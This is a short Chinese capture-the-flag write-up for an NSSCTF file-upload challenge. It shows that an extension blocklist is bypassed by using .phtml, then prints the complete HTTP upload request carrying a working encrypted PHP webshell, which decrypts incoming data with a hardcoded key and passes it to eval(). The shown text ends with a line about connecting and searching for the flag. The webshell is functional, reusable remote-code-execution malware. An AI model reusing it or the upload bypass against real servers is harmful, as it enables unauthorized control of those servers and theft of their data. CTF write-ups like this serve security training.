

# easyupload_2.0

题目链接：https://www.nssctf.cn/problem/423


解题思路：

做了简单的后缀校验，例如.php、.php3、.php5、.php7后缀均校验不通过，不过最终尝试.phtml可以成功绕过后缀校验。

请求如下，成功上传webshell:

```
POST /upload.php HTTP/1.1
Host: node4.anna.nssctf.cn:28630
Content-Length: 881
Cache-Control: max-age=0
Origin: http://node4.anna.nssctf.cn:28630
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3QB09LVfQbhqtZhL
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://node4.anna.nssctf.cn:28630/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_648a44a949074de73151ffaa0a832aec=1747143407,1747227417,1747404430,1747747691; Hm_lpvt_648a44a949074de73151ffaa0a832aec=1747747691; HMACCOUNT=E9F2DF66A680E883; PHPSESSID=53ba5pi5m5qccq4dg79l96bt73
Connection: keep-alive

------WebKitFormBoundary3QB09LVfQbhqtZhL
Content-Disposition: form-data; name="uploaded"; filename="upload.phtml"
Content-Type: application/octet-stream

<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; 
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>

------WebKitFormBoundary3QB09LVfQbhqtZhL
Content-Disposition: form-data; name="submit"

感觉要被秒了
------WebKitFormBoundary3QB09LVfQbhqtZhL--

```

连上后翻找flag文件：


